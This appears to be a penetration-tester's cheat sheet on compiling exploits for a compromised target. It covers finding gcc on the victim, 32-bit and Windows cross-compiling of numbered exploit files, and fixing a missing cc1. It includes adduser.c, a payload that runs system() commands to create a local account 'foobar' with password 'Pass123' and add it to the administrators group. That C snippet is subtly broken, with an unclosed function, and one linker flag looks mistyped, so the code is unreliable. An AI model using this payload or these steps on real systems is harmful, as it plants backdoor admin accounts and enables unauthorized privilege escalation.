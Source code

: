 #### Compiling
gcc not found on target?  Try:
```bash - kali
find / -name gcc -type f 2>/dev/null
```
OR
==Remember you can locally compile if needed!==
64 bit compiling:
```bash - kali
gcc 15285.c -o 15285
```
i686 compiling:
```bash - kali
gcc 15285.c -o 15285 -m32
```
#### Multilib installation
```bash - kali
sudo apt-get install gcc-multilib -y
```
#### Windows cross compiling
```
sudo apt install mingw-w64
```
```bash - kali
i686-w64-mingw32-gcc exploit.c  -o exploit -lsw2_32
```
```bash - kali
gcc -m32 -Wl,--hash-style=both 9545.c -o 9545
```
Compile code to add new user to administrators:
adduser.c:
```
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user foobar Pass123 /add");
i = system ("net localgroup administrators foobar /add");
```
```
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```
#### cc1 No such file or directory
`error trying to exec 'cc1': execvp: No such file or directory`
```bash - target
locate cc1
```
OR
```bash - target
find / -iname cc1 2> /dev/null
```
>
/usr/lib/gcc/i686-linux-gnu/5/cc1
Add ```/usr/lib/gcc/i686-linux-gnu/5/``` to PATH
```bash - target
export PATH="/usr/lib/gcc/i686-linux-gnu/5/:$PATH"
```